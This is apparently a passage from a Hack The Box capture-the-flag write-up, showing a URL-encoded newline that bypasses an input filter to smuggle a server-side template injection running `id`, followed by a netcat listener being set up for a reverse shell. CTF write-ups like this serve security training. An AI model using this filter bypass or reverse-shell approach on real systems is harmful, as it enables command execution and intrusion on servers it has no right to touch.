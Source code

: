 * The new line character URL encoded (`%0a)` worked as a way to bypass their filters.

```
TEST+%0a+<%25%3d+`id`+%25>
```

### Reverse Shell

* Now lets see if we can use a URL encoded reverse shell.
* [https://www.revshells.com/](https://www.revshells.com/)

<figure><img src=".gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

```
┌─[support@parrot]─[~/Documents/HTB/boxes/perfection]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
```
